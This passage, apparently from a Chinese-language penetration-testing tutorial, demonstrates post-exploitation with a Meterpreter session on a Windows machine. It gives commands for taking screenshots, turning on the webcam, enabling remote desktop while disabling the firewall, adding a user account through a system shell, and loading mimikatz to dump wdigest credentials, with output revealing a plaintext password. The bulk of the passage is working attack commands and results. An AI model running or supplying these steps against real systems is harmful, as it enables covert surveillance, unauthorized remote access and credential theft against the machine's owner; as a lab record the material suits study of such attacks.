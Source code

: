 ```
77.meterpreter &gt;
```

**6.3.3 meterpreter 功能展现**

（1）桌面抓图 

1.	meterpreter &gt; screenshot

[![](https://p4.ssl.qhimg.com/t01bc81a356791d7ced.png)](https://p4.ssl.qhimg.com/t01bc81a356791d7ced.png)

（2）视频开启 

1.	meterpreter &gt; webcam_scream

[![](https://p3.ssl.qhimg.com/t019c351d42002bfd35.png)](https://p3.ssl.qhimg.com/t019c351d42002bfd35.png)

（3）开启远程桌面 

1.	&gt; meterpreter &gt; run post/windows/manage/enable_rdp 

2.	此命令可以帮我们一建开启远程桌面，并帮我们关闭防火墙，真的牛xxx.

注：一开始使用命令 run getgui -u admin -p passw0rd 没能开启远程RDP桌面，后来才查询到上面这个攻击脚本。当然并不是说，就不能用哦。

（4）添加账号 

直接进入系统shell,添加账号（结果失败）



```
1.&gt; shell
2.&gt; net user test 123 /add
```

3.	… # 一直没有回显，怀疑是由于安装了360导致的，后来进过验证的确是这原因，所有说安装个360还是很有用的，不要总是说人家是流氓软件，不是打广告哈,切实感受…

（5）获取系统管理密码 

想直接添加账号进行提权，前面操作是不了，那么我们现在就出杀手锏，直接使用mimikatz来获取系统管理账号的密码。 

第一步：载入mimikatz

1.	meterpreter &gt; load mimikatz

第二步：使用命令wdigest获取密码



```
1.meterpreter &gt; wdigest
2.[+] Running as SYSTEM
3.[*] Retrieving wdigest credentials
4.wdigest credentials
5.===================
6.
7.AuthID    Package    Domain        User           Password
8.------    -------    ------        ----           --------
9.0;997     Negotiate  NT AUTHORITY  LOCAL SERVICE  
10.0;996     Negotiate  WORKGROUP     CHINAMAN-PC$   
11.0;47327   NTLM                                    
12.0;999     NTLM       WORKGROUP     CHINAMAN-PC$   
13.0;636147  NTLM       ChinaMan-PC   ChinaMan       mima-009
14.&gt;
```
